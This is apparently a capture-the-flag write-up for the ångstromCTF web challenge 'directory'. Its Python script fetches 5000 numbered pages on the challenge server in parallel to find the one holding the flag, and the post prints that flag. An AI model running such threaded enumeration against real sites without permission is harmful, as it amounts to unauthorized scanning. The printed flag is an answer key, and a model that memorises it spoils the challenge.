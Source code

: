 ```yaml
---
author: "Asad Ullah"
title: "directory - ångstromCTF"
description: 
summary: Write-up on web challenge directory.
date: 2023-04-27T00:04:24+05:00
Section: write-ups
categories:
- writeup
- ctftime.org
tags:
- angstormctf
- bruteforce
- subdir
- curl

draft: false

---
```


{{< 
ctftime 
name="directory" 
difficulty="Easy"  
points="40"
category="Web"
>}}

&nbsp;

&nbsp;

## Description

[This](https://directory.web.actf.co/) is one of the directories of all time, and I would definitely rate it out of 10.

## Approach

The website has 5000 sub-directories and the objective is to identify the directory that contains the flag.

Since we know the format of the flag, we can develop a Python script that requests all pages on the website and checks if the response includes the flag format `actf{`.

```python
import concurrent.futures
import requests

# Set the URL pattern for the subpages
subpage_url_pattern = 'https://directory.web.actf.co/{}.html'

def check_subpage(i):
    subpage_url = subpage_url_pattern.format(i)
    subpage_response = requests.get(subpage_url)
    subpage_content = subpage_response.text
    if 'actf{' in subpage_content:
        print('Found the file in subpage:', subpage_url)
        return subpage_url
    else:
        print('Not found in subpage:', subpage_url)
        return None

# Use multiple threads to check the subpages in parallel
with concurrent.futures.ThreadPoolExecutor() as executor:
    futures = [executor.submit(check_subpage, i) for i in range(5000)]
    for future in concurrent.futures.as_completed(futures):
        if future.result():
            break
```

&nbsp;

found the flag in page `3054`

```bash
┌──(kali㉿iasad)-[~/CTFs/angstorm]
└─$ python3 solve.py
Not found in subpage: https://directory.web.actf.co/3044.html
Not found in subpage: https://directory.web.actf.co/3041.html
Not found in subpage: https://directory.web.actf.co/3049.html
Not found in subpage: https://directory.web.actf.co/3048.html
Not found in subpage: https://directory.web.actf.co/3043.html
Not found in subpage: https://directory.web.actf.co/3053.html
Not found in subpage: https://directory.web.actf.co/3051.html
Not found in subpage: https://directory.web.actf.co/3052.html
Not found in subpage: https://directory.web.actf.co/3050.html

Found the flag in subpage: https://directory.web.actf.co/3054.html
```

```bash
┌──(kali㉿iasad)-[~/CTFs/angstorm]
└─$ curl https://directory.web.actf.co/3054.html

actf{y0u_f0und_me_b51d0cde76739fa3}

```

&nbsp;

---

**Flag: `actf{y0u_f0und_me_b51d0cde76739fa3}`**

---

&nbsp;

&nbsp;
